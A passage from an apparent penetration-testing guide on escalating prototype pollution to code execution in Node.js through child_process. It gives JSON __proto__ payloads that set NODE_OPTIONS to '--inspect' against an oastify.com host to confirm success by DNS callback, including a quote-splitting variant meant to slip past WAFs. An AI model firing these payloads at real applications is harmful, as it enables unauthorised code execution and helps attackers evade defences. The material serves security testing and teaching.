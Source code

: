 ```javascript
clone(USERINPUT);

var proc = fork("a_file.js");
// This should create the file /tmp/pp2rec
```

## DNS Interaction

Using the following payloads it's possible to abuse the NODE_OPTIONS env var we have discussed previously and detect if it worked with a DNS interaction:

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=id.oastify.com"
  }
}
```

Or, to avoid WAFs asking for the domain:

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=id\"\".oastify\"\".com"
  }
}
```

## PP2RCE vuln child_process functions

In this section where are going to analyse **each function from `child_process`** to execute code and see if we can use any technique to force that function to execute code:

<details><summary><code>exec</code> exploitation</summary></details>

<details><summary><strong><code>execFile</code> exploitation</strong></summary></details>

<details><summary><code>fork</code> exploitation</summary></details>

<details><summary><strong><code>spawn</code> exploitation</strong></summary></details>

<details><summary><strong><code>execFileSync</code> exploitation</strong></summary></details>

<details><summary><strong><code>execSync</code> exploitation</strong></summary></details>

<details><summary><strong><code>spawnSync</code> exploitation</strong></summary></details>

## Forcing Spawn

In the previous examples you saw how to trigger the gadget a functionality that **calls `spawn`** needs to be **present** (all methods of **`child_process`** used to execute something calls it). In the previous example that was **part of the the code**, but what if the code **isn't** calling it.
